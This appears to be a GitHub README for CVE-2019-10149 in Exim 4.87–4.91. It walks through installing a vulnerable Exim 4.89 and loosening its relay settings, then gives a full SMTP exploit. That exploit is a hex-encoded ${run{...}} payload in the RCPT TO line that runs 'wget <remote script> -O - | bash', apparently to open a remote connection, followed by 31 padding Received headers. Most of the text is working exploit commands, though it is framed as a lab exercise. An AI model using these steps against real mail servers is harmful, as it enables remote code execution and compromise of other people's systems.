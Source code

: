 # CVE-2019-10149
Instructions for installing a vulnerable version of Exim and its expluatation

# CVE-2019-10149 - Exim 4.87 < 4.91
Tested on Linux Ubuntu 16.04, Exim 4.89

## Exim installation
Download and extract exim version 4.89
 * wget https://github.com/Exim/exim/releases/download/exim-4_89/exim-4.89.tar.xz && tar -xvf exim-4.89.tar.xz

Move into the extracted folder
*cd exim-4.89/

Copy and modify required config files
*sed -e 's,^EXIM_USER.*$,EXIM_USER=exim,' Local/Makefile src/EDITME > Local/Makefile

*cp exim_monitor/EDITME Local/eximon.conf

Create exim user and group
*sudo groupadd -g 31 exim 

*sudo useradd -d /dev/null -c "Exim Daemon" -g exim -s /bin/false -u 31 exim

Install dependencies
*sudo apt-get update
*sudo apt-get install -y make build-essential libpcre3-dev libdb-dev libxt-dev libxaw7-dev

Install exim 4.89
*sudo make install

Edit /usr/exim/configure to allow relaying so we can exploit without waiting 7 days
*sudo sed -iz 's/domainlist relay_to_domains =/domainlist relay_to_domains = */' /usr/exim/configure
*sudo sed -i '/hostlist   relay_from_hosts = localhost/c\hostlist   relay_from_hosts = 0.0.0.0' /usr/exim/configure
*sudo sed -i '/require verify = recipient/c\#require verify = recipient' /usr/exim/configure

Run exim as user exim
*sudo -H -u exim /usr/exim/bin/exim -bd -d-receive    
	
## Crafting the exploit
Convert your shell command to hex
*/bin/sh -c “wget https://raw.githubusercontent.com/darsigovrustam/CVE-2019-10149/master/RemoteConnection.sh" -O - | bash
*\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fraw\x2Egithubusercontent\x2Ecom\x2Fdarsigovrustam\x2FCVE\x2D2019\x2D10149\x2Fmaster\x2FRemoteConnection\x2Esh\t-O\t-\t\x7C\tbash\x22\
	
	
Table for example
*\t-c\ = -c
*\t\= space
*x20 = space
*x7C = |
*x2F = /
*x3A = :
*x2D = -
*x3E = >
*x26 = &
*x22 = "
*x2E = .
	
## Exploit usage
First we use nc to start a connection to the server.
*nc 192.168.0.168 25
 
Once we are connected we say HELO.
*helo localhost
*(Answer: 250 exim Hello localhost [192.168.0.168])

Next, we set the sender address to blank.
*mail from:<>
*(Answer: 250 OK)

Then we set out recipient address with the payload we made earlier by inserting our desired command where the ellipses is rcpt to:<${run{...}}@localhost>.
*rcpt to:<${run{\x2Fbin\x2Fsh\t-c\t\x22wget\t\https\x3A\x2F\x2Fglitchwitch\x2Eio\x2Fpayload\t-O\t-\t\x7C\tbash\x22\}}@localhost>	
*(Answer: 250 Accepted)

And finally We first type DATA, followed by 31 lines, a blank line, and a period.
*DATA
*Received: 1
*Received: 2
*Received: 3
*Received: 4
*Received: 5
*Received: 6
*Received: 7
*Received: 8
*Received: 9
*Received: 10
*Received: 11
*Received: 12
*Received: 13
*Received: 14
*Received: 15
*Received: 16
*Received: 17
*Received: 18
*Received: 19
*Received: 20
*Received: 21
*Received: 22
*Received: 23
*Received: 24
*Received: 25
*Received: 26
*Received: 27
*Received: 28
*Received: 29
*Received: 30
*Received: 31
*
*.

